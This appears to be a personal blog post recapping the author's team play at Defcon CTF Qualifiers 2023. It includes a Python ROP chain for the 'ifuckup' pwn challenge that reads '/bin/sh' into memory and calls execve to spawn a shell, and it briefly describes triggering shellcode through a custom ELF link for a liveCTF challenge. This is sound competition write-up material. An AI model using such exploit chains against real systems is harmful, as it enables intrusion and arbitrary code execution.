 +++
title = "Defcon Qualifiers 2023!"
tags = ["PWN", "Defcon"]
description = "I played with a team of about 50 CTF players during defcon Qualifiers 2023!"
date = "May 27th"
author = "GoldenBoy"
labels = ["defcon","open-house","ifuckup","livectf","conclusion"]
#do not include @ cover = "" tags = ["", ""] keywords = ["", ""] description = "" showFullContent = false readingTime = false hideComments = false color = "" #color from the theme settings 
+++

# Defcon
While this post does not contain any specific information regarding the challenges, I wanted to mention here that I played in this year's Defcon Qualifiers.

It was a lot of fun, and I learned a lot. In particular, I learned about how programs are linked together at compile time to form an elf binary, as well as some of the cool things c programs can do! 

I helped out with the pwn side of about 7 challenges, including ifuckup, open house, and 5 of the live challenges.

### Open House
for open house, one of my teammates (toasterpwn) wrote an [excelent writeup](https://toasterpwn.github.io/posts/defcon-ctf-2023-qualifiers/) that I recommend you check out!

### ifuckup
Regarding ifuckup, I helped out in a very small way. In short, my teammates figured out a way to break the prng used to generate the random address of the stack and code base. So, I just had to build a rop chain that spawns a shell using syscalls.

This took a bit of time, but was pretty easy, considering there is a syscall wrapper function available

```python
    syscall_wrapper_offset = 0x102d
    base = 0x0 #leaked by teammates
    pop4_ret = 0x10c4
    bin_sh_off = 0x3730

    #offset at 22 for eip
    rop_chain = b"A"*22
    rop_chain += p32(base + syscall_wrapper_offset) #call the syscall wrapper, so the stack is passed as arguments
    rop_chain += p32(base + pop4_ret) #remove junk on return
    rop_chain += p32(3) #read
    rop_chain += p32(0) #stdin
    rop_chain += p32(base + bin_sh_off) #ptr to a writable section in memory
    rop_chain += p32(11) #bytes to read
    rop_chain += p32(base + syscall_wrapper_offset) #call again
    rop_chain += p32(0) #padding
    rop_chain += p32(11) #execve
    rop_chain += p32(base + bin_sh_off) #ptr to bin sh
    rop_chain += p32(0) #argv
    rop_chain += p32(0) #envp
    rop_chain += p32(0)*7 + b"\x00\x00" #pad it to fit 100 chars

    r.sendline(rop_chain) #send initial chain
    r.sendline(b"/bin/sh"+p32(0)) #send the input to be read by crafted syscall
```

Once again, I want to make clear that this would not have been possible without the genius of our crypto players! Great work Shadowwws, JoshL, ContronThePanda, vishiswoz, Quasar, and especially Genni!

All in all, I'm just happy that I could help our team solve the challenge! Even if it was only though a small little piece.

If one of my teammates releases a full writeup of the challenge I will link to it here!

### livectf
Overall was a lot of fun, I am not the fastest coder so I mainly helped with ideas and brainstorming. My favorite challenge was liveCTF3 which revolved around designing your own elf link.so. I thought it was cool, and something I had never really thought about before. In the end, you can manually place some shellcode in the executable section and trigger it at the end of main execution.

### Conclusion
I am looking forward to playing again next year, hopefully after I get better at reverse engineering!

Our team placed 15th and the top 12 teams qualify :(

![failure to launch](defcon_stats.png)
